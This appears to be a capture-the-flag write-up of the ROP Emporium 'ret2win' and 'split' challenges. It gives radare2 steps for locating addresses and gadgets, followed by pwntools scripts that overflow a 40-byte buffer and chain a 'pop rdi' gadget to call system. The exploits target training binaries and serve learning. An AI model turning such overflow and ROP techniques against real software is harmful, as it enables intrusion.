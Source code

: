 # ROP EMPORIUM <a name="ropemp"></a>

***

| Challenge          | Walkthrough                                                                                     |
| ------------       | --------                                                                                        |
| [Ret2Win](#ret2win)| [pdf](https://github.com/Ordered-Chaos/Pwnfolio/blob/master/ROP_Emporium/Writeups/Ret2win64.pdf)|
| [Split](#split)    | [pdf](https://github.com/Ordered-Chaos/Pwnfolio/blob/master/ROP_Emporium/Writeups/Split64.pdf)  |                                                                              
| CallMe             |                                                                                                 |
| Write4             |                                                                                                 |

***

## RET2WIN 64 bit<a name="ret2win"></a>

> ### 1. Problem
>> In this challenge, there is a function called ret2win located somewhere
>> in the binary which can be used to cat the flag.txt file. The goal is to:
>>
>>> - [ ] Find offset of the ret2win function
>>>
>>> - [ ] Find out the buffer length
>>>
>>> - [ ] Overflow the buffer and overwrite `$rsp` with the ret2win address offset

> ### 2. Solution
>> - [X] Find offset of the ret2win function
>>> I used the `> afl` command in radare2 to list the functions with their offsets.
>>> This showed me that the ret2win function was located at address 0x00400756.
>>>
>> - [X] Find out the buffer length
>>> In the ROP Emporium challenges all of the buffers are 40 bytes long.
>>>
>> - [X] Overflow the buffer and overwrite `$rsp` with the ret2win address offset
>>> I used a pwntools script in order to execute the exploit.
~~~python

#!/usr/bin/env python

from pwn import *

elf = context.binary = ELF('ret2win')
context.log_level = 'debug'

padding = cyclic(40)
ret2win = p64(0x00400756)

payload = padding
payload += ret2win

io = process(elf.path)
io.sendline(payload)
io.wait_for_close()
io.recvall()

~~~

**FLAG:**  *ROPE{a_placeholder_32byte_flag!}* 

***

## SPLIT 64 bit<a name="split"></a>

> ### 1. Problem
>> In the split challenge, there exists a function that calls system along with
>> the string `/bin/cat flag.txt` which is all that is needed to get the flag. The 
>> twist is that they are split apart and need to be brought together. The goal here is to:
>>
>>> - [ ] Find the address offset of the system call
>>>
>>> - [ ] Find the address offset of the `/bin/cat flag.txt` string
>>>
>>> - [ ] Find a ROP gadget that can pop our string into `$rdi`
>>>
>>> - [ ] Overflow the buffer, overwrite `$rsp` and execute the exploit

> ### 2. Solution
>> - [X] Find the address offset of the system call
>>> Here I used the `> afl` command in radare2 to list the functions. From there I navigated to 
>>> the *usefulFunction* using `>  usefulFunction` followed by a `> pdf` command to disassemble
>>> the function. This gave me the address of the system call.
>>>
>> - [X] Find the address offset of the `/bin/cat flag.txt` string
>>> I used the `> iz` command in radare2 to print a list of strings in the binary. From here I 
>>> was able to find the address of the `/bin/cat flag.txt` string.
>>>
>> - [X] Find a ROP gadget that can pop our string into `$rdi`
>>> The `> /R pop rdi;` command in radare2 searches through the binary and lists all ROP gadgets
>>> that have the `pop $rdi` instruction. This gave me the address to the gadget.
>>>
>> - [X] Overflow the buffer, overwrite `$rsp` and execute the exploit
>>> As always, I created a pwntools script in order to execute the exploit.
~~~python

#!/usr/bin/env python

from pwn import *

elf = context.binary = ELF('split')  # setting up the envronment
context.log_level = 'debug'       

usefulstring = p64(0x601060)         # 'cat flag.txt' string
systemaddr = p64(0x40074b)           # call to system in usefulFunction
rop = p64(0x4007c3)                  # pop rdi; ret;
padding = cyclic(40)

payload = padding                    # junk to fill up buffer
payload += rop                       # pops '/bin/cat flag.txt' into rdi
payload += usefulstring              # string to be as the argument
payload += systemaddr                # call to system in useful function

io = process(elf.path)
io.sendline(payload)                 # sends payload
io.wait_for_close()                  
flag = io.recvall()
print(flag)

~~~

**FLAG:**  *ROPE{a_placeholder_32byte_flag!}* 

***
